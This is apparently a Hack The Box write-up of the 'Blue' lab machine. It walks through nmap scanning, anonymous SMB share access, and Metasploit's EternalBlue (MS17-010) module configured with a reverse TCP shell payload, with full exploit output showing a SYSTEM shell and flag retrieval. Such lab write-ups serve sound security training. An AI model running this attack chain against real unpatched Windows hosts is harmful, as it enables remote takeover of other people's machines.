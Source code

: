 ```yaml
---
layout: post
title:  "Hack the Box - Blue"
date:   2016-09-14 15:07:19
categories: [walkthrough, htb]
comments: false
---
```

![HTB-Blue](/img/htb/blue/blue/png)

An easy box by ch4p.  Great for getting to know metasploit, or practice if you want to find and modify the exploit from exploit-db.com.

<!--more-->
## Host Discovery

Starting this one off with a light nmap scan to see if there is anything interesting on the standard 1000 ports.

{% highlight bash %}
┌[ ~/hackthebox/boxes/blue-10.10.10.40 ] [master ?]
└─> root@kali # nmap -sV 10.10.10.40
Starting Nmap 7.80 ( https://nmap.org ) at 2020-02-06 10:42 MST
Nmap scan report for 10.10.10.40
Host is up (0.072s latency).
Not shown: 991 closed ports
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 77.60 seconds

┌[ ~/hackthebox/boxes/blue-10.10.10.40 ] [master ?]
└─> root@kali #
{% endhighlight %}

Sure enough, SMB is open on the system, and based on the name of the box chances are this is an EternalBlue (MS17_010) exploitable box.

## Enumeration/Port Mapping

Lets see if you can login as a guest by attempting to list and then login to a share without specifying a user.

{% highlight bash %}
┌[ ~/hackthebox/boxes/blue-10.10.10.40 ] [master ?]
└─> root@kali # smbclient -L //10.10.10.40
Enter WORKGROUP\root's password:

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	Share           Disk      
	Users           Disk      
SMB1 disabled -- no workgroup available

┌[ ~/hackthebox/boxes/blue-10.10.10.40 ] [master ?]
└─> root@kali # smbclient  //10.10.10.40/Users
Enter WORKGROUP\root's password:
Try "help" to get a list of possible commands.
smb: \> dir
  .                                  DR        0  Fri Jul 21 00:56:23 2017
  ..                                 DR        0  Fri Jul 21 00:56:23 2017
  Default                           DHR        0  Tue Jul 14 01:07:31 2009
  desktop.ini                       AHS      174  Mon Jul 13 22:54:24 2009
  Public                             DR        0  Tue Apr 12 01:51:29 2011

		8362495 blocks of size 4096. 3842276 blocks available
smb: \>
{% endhighlight %}

Sure enough we can get into the Users share without any real credentials.  On to exploitation!

## Exploitation - MS17-010 EternalBLue

Now, this is the non OSCP friendly way to do it, but chances are this is the way most folks will go ahead and do it.  Using Metasploit and the `exploit/windows/smb/ms17_010_eternalblue)` built in we should be able to get a system shell.

{% highlight bash %}
msf5 exploit(windows/smb/ms17_010_eternalblue) > show options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS         10.10.10.40      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT          445              yes       The target port (TCP)
   SMBDomain      .                no        (Optional) The Windows domain to use for authentication
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.


Payload options (windows/x64/shell_reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.14.17      yes       The listen address (an interface may be specified)
   LPORT     443             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows 7 and Server 2008 R2 (x64) All Service Packs


msf5 exploit(windows/smb/ms17_010_eternalblue) >
{% endhighlight %}

Payload all set now we just run:

{% highlight bash %}
msf5 exploit(windows/smb/ms17_010_eternalblue) > run

[*] Started reverse TCP handler on 10.10.14.17:443
[+] 10.10.10.40:445       - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.10.40:445 - Connecting to target for exploitation.
[+] 10.10.10.40:445 - Connection established for exploitation.
[+] 10.10.10.40:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.10.40:445 - CORE raw buffer dump (42 bytes)
[*] 10.10.10.40:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.10.10.40:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 10.10.10.40:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1
[+] 10.10.10.40:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.10.10.40:445 - Trying exploit with 12 Groom Allocations.
[*] 10.10.10.40:445 - Sending all but last fragment of exploit packet
[*] 10.10.10.40:445 - Starting non-paged pool grooming
[+] 10.10.10.40:445 - Sending SMBv2 buffers
[+] 10.10.10.40:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.10.10.40:445 - Sending final SMBv2 buffers.
[*] 10.10.10.40:445 - Sending last fragment of exploit packet!
[*] 10.10.10.40:445 - Receiving response from exploit packet
[+] 10.10.10.40:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.10.10.40:445 - Sending egg to corrupted connection.
[*] 10.10.10.40:445 - Triggering free of corrupted buffer.
[*] Command shell session 1 opened (10.10.14.17:443 -> 10.10.10.40:49158) at 2020-02-06 10:21:13 -0700
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=

C:\Windows\system32>cd \users\administrator\desktop
cd \users\administrator\desktop

C:\Users\Administrator\Desktop>type root.txt
type root.txt
ff54************************e717

C:\Users\haris>cd \Users\haris\desktop
cd \Users\haris\desktop

C:\Users\haris\Desktop>type user.txt
type user.txt
4c54***********************deea9
C:\Users\haris\Desktop>
{% endhighlight %}

That is all there is to it.
